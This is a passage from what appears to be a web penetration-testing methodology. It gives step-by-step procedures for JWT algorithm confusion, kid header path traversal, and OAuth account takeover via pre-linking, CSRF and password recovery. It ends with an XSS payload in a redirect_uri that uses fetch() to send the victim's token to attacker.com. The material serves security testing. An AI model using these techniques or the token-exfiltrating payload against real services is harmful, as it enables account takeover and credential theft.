     2. **JWT key confusion**:
       - Step 1: Locate public keys or certificates used by the application
       - Step 2: Convert public key to appropriate format
       - Step 3: Modify JWT header to change signature algorithm (RS256 to HS256)
       - Step 4: Sign the token using the public key as the HMAC secret
       - Step 5: Test if application accepts the manipulated token
       - Example: Change header from `{"alg":"RS256"}` to `{"alg":"HS256"}`

    3. **JWT kid header injection**:
       - Step 1: Identify JWTs using the "kid" (Key ID) header parameter
       - Step 2: Test for directory traversal in the kid parameter
       - Step 3: Point kid to a predictable file on the server
       - Step 4: Sign a malicious token using the content of that file as the key
       - Step 5: Test if the application accepts the forged token
       - Example: Set kid to `{"kid":"../../../dev/null"}`

  - **OAuth account takeover techniques**
    1. **Pre-account linking attacks**:
       - Step 1: Create accounts with target email addresses on OAuth provider
       - Step 2: Wait for victim to use "Log in with [provider]" functionality
       - Step 3: Victim's account becomes linked with attacker-controlled OAuth account
       - Step 4: Use OAuth to authenticate as the victim
       - Mitigation checking: Test if provider verifies email ownership

    2. **Account linking CSRF**:
       - Step 1: Identify account linking functionality
       - Step 2: Check for CSRF vulnerabilities (missing state parameter)
       - Step 3: Create CSRF exploit to link victim's account to attacker's
       - Step 4: Deliver exploit to victim
       - Step 5: Access victim's account using attacker's OAuth credentials
       - Example: Create hidden form that submits link request

    3. **Secondary channel account takeover**:
       - Step 1: Identify password reset or account recovery functionality
       - Step 2: Check if OAuth-linked email is used for recovery
       - Step 3: Link your OAuth account with target email
       - Step 4: Trigger password reset to that email
       - Step 5: Intercept recovery link via OAuth email scope
       - Step 6: Reset victim's password and take over account

  - **Advanced exploitation techniques**
    1. **Chained vulnerabilities**:
       - Step 1: Identify redirect_uri validation flaws
       - Step 2: Find XSS vulnerability on legitimate domain
       - Step 3: Set redirect_uri to XSS-vulnerable page
       - Step 4: Exploit XSS to steal tokens/codes
       - Step 5: Use stolen credentials to access victim accounts
       - Example chain:
         1. Discover redirect_uri accepts path traversal
         2. Find reflected XSS on `/search?q=` endpoint
         3. Set `redirect_uri=https://legitimate-app.com/search?q=<script>fetch('https://attacker.com/steal?token='+location.hash.substring(1))</script>`
         4. Victim visits malicious site, completes OAuth flow
         5. Token is sent to attacker's server
